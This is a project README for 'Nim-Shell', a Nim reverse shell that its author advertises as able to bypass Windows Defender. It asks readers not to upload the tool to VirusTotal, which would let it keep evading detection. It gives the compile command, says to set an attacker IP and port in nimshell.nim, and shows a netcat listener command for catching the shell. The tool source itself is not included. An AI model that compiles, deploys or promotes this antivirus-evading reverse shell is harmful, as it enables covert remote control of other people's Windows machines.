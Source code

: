 [![EmreKybs](https://img.shields.io/badge/MadeBy-EmreKybs-yellow)
# Nim-Shell
Reverse shell that can bypass windows defender detection

# Please do not upload to VirusTotal

# 𝗜𝗡𝗦𝗧𝗔𝗟𝗟𝗔𝗧𝗜𝗢𝗡 𝗜𝗡𝗦𝗧𝗥𝗨𝗖𝗧𝗜𝗢𝗡𝗦
    $ apt install nim

# Compilation
nim c -d:mingw --app:gui nimshell.nim


<img src="https://github.com/emrekybs/nim-shell/blob/main/1.png">

Change the IP address and port number you want to listen to in the nimshell.nim file according to your device.

<img src="https://github.com/emrekybs/nim-shell/blob/main/2.png">

# and listen

     $ nc -nvlp 4444
